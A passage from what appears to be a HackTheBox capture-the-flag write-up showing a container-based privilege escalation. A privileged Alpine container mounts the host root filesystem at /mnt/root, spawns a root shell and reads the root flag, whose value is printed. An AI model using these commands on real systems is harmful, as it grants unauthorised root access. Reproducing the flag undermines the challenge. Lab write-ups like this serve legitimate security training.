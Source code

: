 To confirm:

```
mike@included:~$ lxc image list
lxc image list
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| alpine | d42f02dfffa6 | no     | Alpinelinux 3.8 x86_64 (20220418_2035) | x86_64 | 1.96MB | Apr 18, 2022 at 8:50pm (UTC) |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
```

Now for the execution. First, we need to set the `security.privileged` flag to true in order to give us root privileges. Afterwards, we will mount the root file system to `/mnt` so we have access to all the root files.

```console
mike@included:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
mike@included:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
<st-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Finally, we can launch the container and spawn the shell.

```console
mike@included:~$ lxc start privesc
lxc start privesc
mike@included:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
~ # whoami  
root
```

And get the flag.

```console
/ # cd mnt/root/root
/mnt/root/root # ls       
root.txt
/mnt/root/root # cat root.txt
c693d9c7499d9f572ee375d4c14c7bcf
```

**Flag:** `c693d9c7499d9f572ee375d4c14c7bcf`

---
**Tags:** [[HackTheBox]]